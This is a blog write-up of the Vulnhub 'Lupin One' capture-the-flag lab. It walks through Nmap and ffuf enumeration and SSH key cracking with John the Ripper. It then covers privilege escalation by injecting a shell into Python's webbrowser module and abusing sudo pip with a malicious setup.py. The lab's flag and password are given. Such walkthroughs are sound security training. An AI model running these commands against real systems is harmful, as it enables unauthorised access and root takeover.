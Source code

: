 ```yaml
---
layout: single
title: Lupin One - Vulnhub
excerpt: "A detailed walkthrough of the scanning, enumeration, and exploitation phases during a penetration test, including the use of tools like Nmap, ffuf, and Metasploit."
date: 2024-10-24
classes: wide
header:
  teaser: ../assets/images/vulnhub-lupinone-writeup/lupinone_logo.png
  teaser_home_page: true
  icon: ../assets/images/hackthebox.webp
categories:
  - WriteUp
---
```

![](../assets/images/vulnhub-lupinone-writeup/lupinone_logo.png)

This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.

---

## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupinnmap.png)

## Phase 1: Scanning

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

---

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.

![](../assets/images/vulnhub-lupinone-writeup/lupinerror.png)

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

nmap -sV -p80 --script=http-enum 10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupin3.png)

This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt

![](../assets/images/vulnhub-lupinone-writeup/lupin4.png)

This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

![](../assets/images/vulnhub-lupinone-writeup/lupin5.png)

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js

![](../assets/images/vulnhub-lupinone-writeup/lupin6.png)

This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

![](../assets/images/vulnhub-lupinone-writeup/lupin7.png)


### Decrypting the Hidden Message

![](../assets/images/vulnhub-lupinone-writeup/lupin8.png)

The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

![](../assets/images/vulnhub-lupinone-writeup/lupin9.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin10.png)


### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash

![](../assets/images/vulnhub-lupinone-writeup/lupin11.png)

John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash

![](../assets/images/vulnhub-lupinone-writeup/lupin12.png)

The password P@55w0rd! is successfully retrieved.

## Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupin13.png)

Finding the Flag

![](../assets/images/vulnhub-lupinone-writeup/lupin14.png)

Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

### Privilege Escalation 
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l

![](../assets/images/vulnhub-lupinone-writeup/lupin15.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin16.png)

A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

![](../assets/images/vulnhub-lupinone-writeup/lupin17.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin18.png)

nano /usr/lib/python3.9/webbrowser.py

![](../assets/images/vulnhub-lupinone-writeup/lupin19.png)

The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

![](../assets/images/vulnhub-lupinone-writeup/lupin20.png)

### Root Access

![](../assets/images/vulnhub-lupinone-writeup/lupin21.png)

After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

![](../assets/images/vulnhub-lupinone-writeup/lupin22.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin23.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin24.png)

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF

![](../assets/images/vulnhub-lupinone-writeup/lupin25.png)


Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper